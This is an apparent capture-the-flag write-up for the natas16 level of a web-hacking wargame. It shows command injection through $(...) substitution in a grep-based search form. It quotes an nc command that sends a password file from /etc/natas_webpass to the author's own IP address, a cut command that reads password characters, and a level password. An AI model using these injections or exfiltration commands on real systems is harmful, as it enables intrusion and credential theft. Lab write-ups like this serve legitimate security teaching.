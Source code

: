 WaIHEacj63wnNIBROHeqi3p9t0m5nhmh



**natas16**

Well, for the record I found this level quite annoying...  So, first of all
let's see what we are supposed to do: basically the server will take the data
we give him as input check if it contains any character between those:
[;|&`\'"] and, if not perform a search in the file dictionary.txt using the
program grep.

One of the first thing that I realized was "cool, I can use $(...) to execute
whatever command and I can still perform redirections". Unfortunately we are
not able to get the output of the commands we execute, the only things we can
do is hope it will match with any word of the dictionary. 

So, one of my first attempts was to find a way to get that output. What about
send it to myself trough internet ? ...this could work, then I tried `$(nc
mypubblicIPaddress 55555 < /etc/natas_webpass/natas17)` while I was listening
on my machine on the same port, but it didn't work (there must be some kind of
restriction).

                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      
The command cut can help us, lets see for example what are the second and third
character of the password  `$(cut -c2-3  < /etc/natas_webpass/natas17)`.
We get:
    airstrips
    amps
    apprenticeships
    archbishops
    autopsied
    autopsies
    autopsy
    autopsy's
    autopsying
    battleships
    bellhops
    bishops
    blacktops
    blimps
    blips
    bookshops
    bumps
    burps
    buttercups
    camps
    caps
    capsize
    capsized
    capsizes
    capsizing
    capsule
    capsule's
    capsuled
    capsules
    capsuling
    carps
    ...
